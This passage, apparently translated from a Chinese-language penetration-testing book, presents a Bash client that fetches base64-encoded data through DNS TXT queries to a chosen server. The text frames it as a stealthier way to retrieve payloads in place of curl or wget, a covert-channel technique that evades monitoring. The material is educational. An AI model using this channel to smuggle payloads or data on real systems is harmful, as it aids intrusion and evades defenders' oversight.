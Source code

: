 如果你想更加隐蔽，应该避免使用 `curl` 或 `wget` 来获取有效载荷，而是使用 DNS。以下示例包含了用于通过 DNS 传输数据的服务器端和客户端代码。你可以在 Bash 脚本中实现客户端代码，替换任何使用 `curl` 或 `wget` 的地方。

服务器端代码可以在本章的 GitHub 仓库中找到，文件名为 `ch14_dns_server.py`。客户端代码可以在本章的 GitHub 仓库中找到，文件名为 `ch14_dns_client.sh`：

```
 #!/usr/bin/env bash
SERVER_IP="10.2.10.99" #Replace with your actual server IP
DOMAIN="example.com"
function retrieve_data() {
    local key="$1"
    echo "Sending query for: $key.get.$DOMAIN to $SERVER_IP"
    local result=$(dig @$SERVER_IP +short TXT "$key.get.$DOMAIN")
    if [ -n "$result" ]; then
        # Remove quotes and decode
        local decoded=$(echo $result | tr -d '"' | base64 -d 2>/dev/null)
        if [ $? -eq 0 ]; then
            echo "Retrieved data for '$key': $decoded"
        else
            echo "Error decoding data for '$key'. Raw data: $result"
        fi
    else
        echo "No data found for '$key'"
    fi
    echo "-------------------"
}
# Example usage
retrieve_data "weather"
retrieve_data "news"
retrieve_data "quote"
retrieve_data "nonexistent"
```

客户端的输出可以在以下图中找到：

![图 14.2 – 显示了 DNS 客户端的输出](img/B22229_14_02.jpg)
